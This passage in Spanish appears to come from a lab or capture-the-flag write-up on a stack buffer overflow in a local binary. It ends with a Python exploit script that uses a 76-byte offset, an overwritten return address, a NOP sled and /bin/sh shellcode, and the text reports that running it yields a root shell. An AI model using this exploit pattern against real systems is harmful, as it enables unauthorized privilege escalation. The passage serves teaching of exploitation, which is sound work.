 Debemos ejecutar directamente el binario que creamos `(buff)` con nuestro payload para obtener nuestra shell como `root`.

![Segmentation Fault](/assets/images/rootShell.png)
	
## Recomendación

En la imagen anterior podemos observar que una vez ejecutamos el binario junto con nuestro payload, recibimos nuestra shell como root, pero también podemos ver en la parte inferior que pasándole un script en python, obtenemos el mismo resultado, de hecho este script lo que nos permite es evitarnos pasar manualmente nuestra dirección de memoria a formato **Little-Endian**, ya que esto puede ocasionar errores.

Para evitar eso el script utiliza la libreria `pack` que permite pasar la dirección de memoria a formato **Little-Endian** de forma automática.

```python
#!/usr/bin/python

from struct import pack

if __name__=='__main__':

        offset = 76
        junk = "A"*offset
        EIP = pack("<I", 0xbfffefa0)
        nops = "\x90"*100
        shell= "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

payload = junk + EIP + nops + shell

print payload
```
